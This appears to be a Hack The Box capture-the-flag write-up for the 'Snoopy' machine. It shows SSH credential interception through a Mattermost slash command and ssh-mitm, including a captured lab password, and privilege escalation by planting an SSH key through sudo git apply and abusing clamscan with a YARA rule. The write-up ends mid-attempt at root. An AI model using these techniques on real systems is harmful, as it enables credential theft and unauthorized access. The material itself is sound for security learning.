

Here I didn´t know what to search for so I asked for tips and apparenty I shodulc check under Integrations:



And that Slash commands is the path we have to pursuite. And moving along I see that slash commands is like a Bot for running commands and checking what is created right now there is an integrations to ask for new servers:


Since I don't know about this crappy Mattermost I read about those Slash Commands: https://docs.mattermost.com/integrations/cloud-slash-commands.html

Which is basically I custom command that is managed by a BOT and can be called in a chat by /&lt;something&gt; and doing so we should be able to use it and get a RCE!

Now running the slash command "/server_provision" we are presented with following request:



Now if I add my machine IP address, Engineering dept, our email we foud from sbrow and we show be able to listen on port 2222...

So i setup a listener:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 2222 
listening on [any] 2222 ...
```

I Compile the request pointing to my machine:



Sending the request seems like we have something incoming but can´t get thru it:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 2222 
listening on [any] 2222 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.212] 58078
SSH-2.0-paramiko_3.1.0
id'
ls
```

Then this should do what we need for: https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#ssh-mitm

Or this seems easier: https://www.infosecmatter.com/ssh-sniffing-ssh-spying-methods-and-defense/

But to make my life easier i will eventually follow this so I don´t have to install anything: https://networklogician.com/2021/04/17/sniffing-ssh-passwords/

First I will find the PID of NC:

```Bash
root       38217  0.0  0.0   2480  1752 pts/3    S+   14:26   0:00 nc -lvnp 2222
```

Then setup the strace output:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# strace -f -p 38217 -e trace=write -o capture
strace: Process 38217 attached
```

And NC is already up and running on port  2222. Then lastly we run the slashed command in Mattermost.

This should get us the famous connection in NC:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.212] 59956
SSH-2.0-paramiko_3.1.0
```

But the strace didn´t got us password cause no one really sent us a connection  so I guess we have to use ssh mimt tool.

First we listen on port 2222 and vpn tunnel interface:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# sshmitm -I tun0 -p 2222
sshmitm: relaying to tun0
```

Then we run the start.sh script to open ports:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Tools/ssh-mitm]
└─# ./start.sh 
Running sshd_mitm in unprivileged account...
SSH MITM v2.3-dev starting (production mode)
sshd_mitm is now running.
Enabling IP forwarding in kernel...
Changing FORWARD table default policy to ACCEPT...
Executing: iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
Executing: iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222


Done!  Now ARP spoof your victims and watch /var/log/auth.log for credentials.  Logged sessions will be in /home/ssh-mitm/.  Hint: ARP spoofing can either be done with:

    arpspoof -r -t 192.168.x.1 192.168.x.5

        OR

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

If you don't have a list of targets yet, run stop.sh and use JoesAwesomeSSHMITMVictimFinder.py to find them.  Then run this script again.
```

And lastly we run the attack: Edit: IS not working!

So again i asked for help and apparently there is this tool that works better!

https://docs.ssh-mitm.at

- Again same crap; setup the malicious listener(we choose to listen on port 2222 and remote ip is the VM IP of HTB):

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Tools]
└─# ssh-mitm server --remote-host 10.10.11.212 --listen-port 2222
───────────────────────────────────────────────────────────── SSH-MITM - ssh audits made simple ──────────────────────────────────────────────────────────────
Version: 3.0.2
License: GNU General Public License v3.0
Documentation: https://docs.ssh-mitm.at
Issues: https://github.com/ssh-mitm/ssh-mitm/issues
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
generated temporary RSAKey key with 2048 bit length and fingerprints:
   MD5:2b:62:e3:e5:6c:63:6d:4f:1e:fa:9d:75:f2:89:cf:67
   SHA256:/P6o35DjMCGfILYCmRk9q9LncLqGxXwc3mGycSiUyC4
   SHA512:NqZf3YHGpsQFTYWnyMHEkWqIVlrMJMZ5SR+EU/EQ/F5nqeGXiihEfnQesoh03V2PYSPAWZTdCD2pqOFiQhaqhA
listen interfaces 0.0.0.0 and :: on port 2222
────────────────────────────────────────────────────────────────── waiting for connections ───────────────────────────────────────────────────────────────────
```

- Send the payload from Mattermost!
- And profit!

```Bash
────────────────────────────────────────────────────────────────── waiting for connections ───────────────────────────────────────────────────────────────────
[05/09/23 15:14:45] INFO     ℹ session 44ab10d0-0491-485b-a95a-cfe783fbc325 created                                                            
                    INFO     ℹ client information:                                                                                              
                               - client version: ssh-2.0-paramiko_3.1.0                                                                         
                               - product name: Paramiko                                                                                                       
                               - vendor url:  https://www.paramiko.org/                                                                                       
                             ⚠ client audit tests:                                                                                                 
                               * client uses same server_host_key_algorithms list for unknown and known hosts                                              
                               * Preferred server host key algorithm: ssh-ed25519                                                                             
                    INFO     Remote authentication succeeded                                                                                    
                                     Remote Address: 10.10.11.212:22                                                                                          
                                     Username: cbrown                                                                                                         
                                     Password: sn00pedcr3dential!!!                                                                                           
                                     Agent: no agent                                                                                                          
                    INFO     ℹ 44ab10d0-0491-485b-a95a-cfe783fbc325 - local port forwading                                                     
                             SOCKS port: 36565                                                                                           
                               SOCKS4:                                                                                                                  
                                 * socat: socat TCP-LISTEN:LISTEN_PORT,fork socks4:127.0.0.1:DESTINATION_ADDR:DESTINATION_PORT,socksport=36565 
                                 * netcat: nc -X 4 -x localhost:36565 address port                                                             
                               SOCKS5:                                                                                                                  
                                 * netcat: nc -X 5 -x localhost:36565 address port                                                             
                    INFO     got ssh command: ls -la                                                                                                          
[05/09/23 15:14:46] INFO     ℹ 44ab10d0-0491-485b-a95a-cfe783fbc325 - session started                                                          
[05/09/23 15:14:47] INFO     got remote command: ls -la                                                                                                       
                    INFO     remote command 'ls -la' exited with code: 0                                                                                      
                    ERROR    Socket exception: Connection reset by peer (104)                                                                                 
                    INFO     ℹ session 44ab10d0-0491-485b-a95a-cfe783fbc325 closed
```

* * *

## Road to Local.txt:

On last screen we could grab credentials from cbrow user and from first LFI we could se that he is a user from /etc/passwd



Now we can login via ssh and have our first shell!

Then I can see that local.txt is not in cbrown but most likely in sbrown:

```Bash
cbrown@snoopy:/home$ sudo -l
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *
```

Now here I read about git apply and as far I understand applies a diff file which means we have to create a diff file to be applied...

Again I didn´t know how to procede so I checked for tips and apparently the way to go is Git diffs:

- First I create a new ssh keys for cbrown user:
    
    ```Bash
    cbrown@snoopy:~$ ssh-keygen 
    Generating public/private rsa key pair.
    Enter file in which to save the key (/home/cbrown/.ssh/id_rsa): 
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in /home/cbrown/.ssh/id_rsa
    Your public key has been saved in /home/cbrown/.ssh/id_rsa.pub
    The key fingerprint is:
    SHA256:4dk2lKpJpSlEFCBe2nIivrbiZCOu0HrbTR6Ash4hQoY cbrown@snoopy.htb
    The key's randomart image is:
    +---[RSA 3072]----+
    |. .++.           |
    |o.+.       .     |
    |EB o.   o o      |
    |= +o   = *       |
    |+o. o + S +      |
    |o+o  + o . .     |
    |+B.   =          |
    |X.=. + .         |
    |**... o          |
    +----[SHA256]-----+
    ```
    
- Then I add cbrow public key to authorized ones:
    
    ```Bash
    cbrown@snoopy:~/.ssh$ cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJtodtyzGlVeKqK7Kpa7UyaLL19HO3nqy0aWyvJ027+HDXBtkEStaC+4nYsFTZ84nEDpVi2G5SL49FYAhPF+asA/isA53DJSJNlsW6f9Guqx1UEEme435zWsZUJP9OfxJo9NArHFyL9P1yEdYNvtfFYUIB2PEXy/+EEhP6uCEekbPzL+d/rYEZxhSbhvd2lPLlr9rK+5k8/6nGLkyy7VpYQH38wXgYJVy23qB/kl+L+7nMpQBWhk61Jft3Cn9K5mxJo1jKgoJN0BjwHOWyTNGHr704M756Jr7QobG1TZScfwjaj+yYnLB95peY9/mVaV5tmDT0A6U83N3Zoj0oNQ1ob7xfdLdwJwWeYHKWp45CXDlSltqipR4UECUA6Lsyh91LKzvRWo8usm6N3d2k5AUHQkrXEBdR+UzyeibBFj7x8gwJwlBM0r+ZDQiWaTC1JHmIB3wcjyzSrqH/1uUTgde7FJqXq2CgLHw9HtZ1Cvwl2lUrGg6OnGojYaTWus2LeYE= cbrown@snoopy.htb
    ```
    
- And then we can use git diff to create  a diff file(it compares 2 files and does the diff patch but if we use a void file like bash_history then it should parse the whole file instead):
    
    ```Bash
    cbrown@snoopy:~$ git diff .bash_history /home/cbrown/.ssh/authorized_keys 
    diff --git a/.bash_history b/.bash_history
    deleted file mode 120000
    index dc1dc0c..0000000
    --- a/.bash_history
    +++ /dev/null
    @@ -1 +0,0 @@
    -/dev/null
    \ No newline at end of file
    diff --git a/home/cbrown/.ssh/authorized_keys b/home/cbrown/.ssh/authorized_keys
    new file mode 100644
    index 0000000..792066f
    --- /dev/null
    +++ b/home/cbrown/.ssh/authorized_keys
    @@ -0,0 +1 @@
    +ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJtodtyzGlVeKqK7Kpa7UyaLL19HO3nqy0aWyvJ027+HDXBtkEStaC+4nYsFTZ84nEDpVi2G5SL49FYAhPF+asA/isA53DJSJNlsW6f9Guqx1UEEme435zWsZUJP9OfxJo9NArHFyL9P1yEdYNvtfFYUIB2PEXy/+EEhP6uCEekbPzL+d/rYEZxhSbhvd2lPLlr9rK+5k8/6nGLkyy7VpYQH38wXgYJVy23qB/kl+L+7nMpQBWhk61Jft3Cn9K5mxJo1jKgoJN0BjwHOWyTNGHr704M756Jr7QobG1TZScfwjaj+yYnLB95peY9/mVaV5tmDT0A6U83N3Zoj0oNQ1ob7xfdLdwJwWeYHKWp45CXDlSltqipR4UECUA6Lsyh91LKzvRWo8usm6N3d2k5AUHQkrXEBdR+UzyeibBFj7x8gwJwlBM0r+ZDQiWaTC1JHmIB3wcjyzSrqH/1uUTgde7FJqXq2CgLHw9HtZ1Cvwl2lUrGg6OnGojYaTWus2LeYE= cbrown@snoopy.htb
    cbrown@snoopy:~$ git diff .bash_history /home/cbrown/.ssh/authorized_keys --output /tmp/yovecio.diff
    ```
    
- Now here i guess we have to edit that diff file and change the path to sbrown username, something like this:
    
    ```Bash
    cbrown@snoopy:/tmp$ cat yovecio.diff 
    diff --git a/home/sbrown/.bash_history b/home/sbrown/.bash_history
    deleted file mode 120000
    index dc1dc0c..0000000
    --- a/home/sbrown/.bash_history
    +++ /dev/null
    @@ -1 +0,0 @@
    -/dev/null
    \ No newline at end of file
    diff --git a/home/sbrown/.ssh/authorized_keys b/home/sbrown/.ssh/authorized_keys
    new file mode 100644
    index 0000000..792066f
    --- /dev/null
    +++ b/home/sbrown/.ssh/authorized_keys
    @@ -0,0 +1 @@
    +ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJtodtyzGlVeKqK7Kpa7UyaLL19HO3nqy0aWyvJ027+HDXBtkEStaC+4nYsFTZ84nEDpVi2G5SL49FYAhPF+asA/isA53DJSJNlsW6f9Guqx1UEEme435zWsZUJP9OfxJo9NArHFyL9P1yEdYNvtfFYUIB2PEXy/+EEhP6uCEekbPzL+d/rYEZxhSbhvd2lPLlr9rK+5k8/6nGLkyy7VpYQH38wXgYJVy23qB/kl+L+7nMpQBWhk61Jft3Cn9K5mxJo1jKgoJN0BjwHOWyTNGHr704M756Jr7QobG1TZScfwjaj+yYnLB95peY9/mVaV5tmDT0A6U83N3Zoj0oNQ1ob7xfdLdwJwWeYHKWp45CXDlSltqipR4UECUA6Lsyh91LKzvRWo8usm6N3d2k5AUHQkrXEBdR+UzyeibBFj7x8gwJwlBM0r+ZDQiWaTC1JHmIB3wcjyzSrqH/1uUTgde7FJqXq2CgLHw9HtZ1Cvwl2lUrGg6OnGojYaTWus2LeYE= cbrown@snoopy.htb
    ```
    

Here I tried several times but it didn't worked so I stumpled upon this guide: https://unixsuperhero.wordpress.com/2014/05/06/git-tip-how-to-git-diff-a-new-yet-to-be-added-file-without-git-diff-cached/

And sending this payload it writes the ssh/authorized keys from the path where the command runs:

```Bash
diff --git a/sbrown/.ssh/authorized_keys b/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..0c207d0
--- /dev/null
+++ b/sbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDU/Irj4Z7HpDV/KKsFtaAGgj7oaAU6S57z5n4aq56hrJ5QXt1hJs1QieZ8t4O68f7gb7N2OCSHc1rXNADL2d5ObNZqKiNnciZcS5FQ2a2tAIgzjawkScY9RX87Er0t7IsjK2FXmqQrmpp4JjotDnC6wUBWhgKKt6tsvDjQOcPQ/qC4ePr2oAaCXo4dpOGJsHcHtcpqiYVium5TMHXreQOsfZKFmp1jVV27UpBRelyetzu+DtEHCJJx5G3hiEnHBHVg3WjL2ueJb4/wst+kG5E653HGFXe0K5m7ujNwPOsiw54j1un9daD0BV5GrBjSmxp+2Xr+ysFA/OnI7QFWU9L3exDKcKw6X3IF5+v8l3EnS8sHTzonC9fpQi4q3qAZvKjD0eWfzNse45vn61Dz+BiUYl0pn7RAzZRWSbbGMUZl8UQUT8CWUvNemVh/f/JpMZAh3fVs1pjKwmvFSCKEiOKTczfX3IYwZVaq8t6CSB9F5dzKrUq/hfj7LxRvBfrb4p0= cbrown@snoopy.htb
```

Running it from /tmp it works:

```Bash
cbrown@snoopy:/tmp/sbrown/.ssh$ cd ..
cbrown@snoopy:/tmp/sbrown$ ll
total 12
drwxrwxr-x  3 sbrown sbrown 4096 May 10 13:39 ./
drwxrwxrwt 13 root   root   4096 May 10 13:40 ../
drwxrwxr-x  2 sbrown sbrown 4096 May 10 13:39 .ssh/
cbrown@snoopy:/tmp/sbrown$ cd ...
-bash: cd: ...: No such file or directory
```

But it doesn't when i run it from /home(to target /home/sbrown/.ssh/authorized_keys):

```bash
cbrown@snoopy:/home$ sudo -u sbrown /usr/bin/git apply /tmp/yovecio.diff
error: sbrown/.ssh/authorized_keys: already exists in working directory
```

The reason we get the error is because git don't parses the conflicts so the solution is to delete the file and the re-write back.  Then speaking to a guy on forum seems like it's way easier than that, is basically just a remove and add so it can be done like this:

```Bash
--- /home/sbrown/.ssh/authorized_keys
+++ /home/sbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCw0WCpMm2Pw+oEOQfsGISAV//U29IgPRVS5flG0LRI1REBkRankSwfiYJ4uRRA6XmjfXabC8w63rthoCEKVTO9jhKsquKVbTY/hAL0vUHFYCw0RgiSQKGq0f4BZfxRpOLA6Idhycct3/5tOLFHn8yaNDaVvZQ4D0BmjcikSB/ErnsHpMVpzuc4eGKIoTNj8TMceaZTjYs3/HnJX7BXfug5m4yDuHdJMmd9pfDgh6oQdsMdUiV1UJHgNhpskSDf96er7li0LTquYXAuNnCbB5zq3amRB4OD7xnQ1nvJZqsXA2LU3LBLaomMPraUHkcspSgp4eD9QWiKUFyA9jUkHuyvNyYtW+J1GVHCop0/r51qZ0ECq5MI/sTbjjo9QVilp1+xIfaeZ+mqsq4bY5u7WI/ie4ErNpkC76gqKsstxCRtcEzmxFf6NtMpXqy7o6iey1YWw3zKF/UOJYqFGKv7ZFDR8K9rfxXTXLt/XPUq+U5cnzcn1jZ6k6LtBxcUquoHuFc= cbrown@snoopy.htb
```

## Remember to run the commando from / if you use the absolute paths in the patch file cause git applies patches on files on "relative" way aka it runs the code on the path where you run it from.

And lastly we have a shell as SBROWN:

```Bash
cbrown@snoopy:/$ sudo -u sbrown /usr/bin/git apply /tmp/yovecio.patch 
cbrown@snoopy:/$ ssh -i home/cbrown/.ssh/id_rsa sbrown@snoopy.htb
The authenticity of host 'snoopy.htb (127.0.1.1)' can't be established.
ED25519 key fingerprint is SHA256:XCYXaxdk/Kqjbrpe8gktW9N6/6egnc+Dy9V6SiBp4XY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'snoopy.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

sbrown@snoopy:~$
```

And we can grab our first flag!

* * *

## Road to Root.txt:

Now that local.txt is conquered we have to see what can we do to become root! To make my life easier i will upload a copy of linpeas on the victim and run it as SBROWN user and come back with findings.

So far what I found that is interesting is:

```Bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for sbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan


╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root shadow 23K Feb  2 09:21 /usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 27K Feb  2 09:21 /usr/sbin/unix_chkpwd
-rwxr-sr-x 1 root _ssh 287K Nov 23 07:38 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/wall
-rwxr-sr-x 1 root shadow 23K Nov 24 12:05 /usr/bin/expiry
-rwxr-sr-x 1 root plocate 307K Feb 17  2022 /usr/bin/plocate (Unknown SGID binary)
-rwxr-sr-x 1 root crontab 39K Mar 23  2022 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 71K Nov 24 12:05 /usr/bin/chage
```

Ok that plocate seems interesting but can't find a way to exploit it.. But what about that clamscan?

Googling around seems like there is something interesting: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-clamav-privilege-escalation/

First we need to see how we can use yara rules with Clamscan: https://cloudyforensics.medium.com/how-to-run-yara-rules-during-incident-response-58060f2c5af

****

Ok with -d so technically now we can use the guide I linked in before and we should be able to get our file saved in tmp.

First i create a yara rule:

```Bash
sbrown@snoopy:/tmp$ cat yovecio.yara 
rule flag
{
  strings:
    $string = "root.txt"
  conditions:
    not $string
}
```

Then  technically running the command with sudo on the file and linkind the rule should do the trick:

```Bash
sbrown@snoopy:/tmp$ sudo -u root /usr/local/bin/clamscan -d yovecio.yara /root/ --copy=/tmp/results
action_setup: Failed to get realpath of /tmp/results
LibClamAV Error: yyerror(): yovecio.yara line 5 syntax error, unexpected _IDENTIFIER_, expecting _CONDITION_
LibClamAV Warning: cli_loadyara: failed to parse or load 1 yara rules from file yovecio.yara, successfully loaded 0 rules.
LibClamAV Warning: cli_loadyara: empty database file
Compiling:   0s, ETA:   0s [========================>]       40/40 tasks 

/root/.viminfo: OK
/root/.bash_history: Symbolic link
/root/root.txt: OK
/root/clean.sh: OK
/root/.bashrc: OK
/root/named_restore.sh: OK
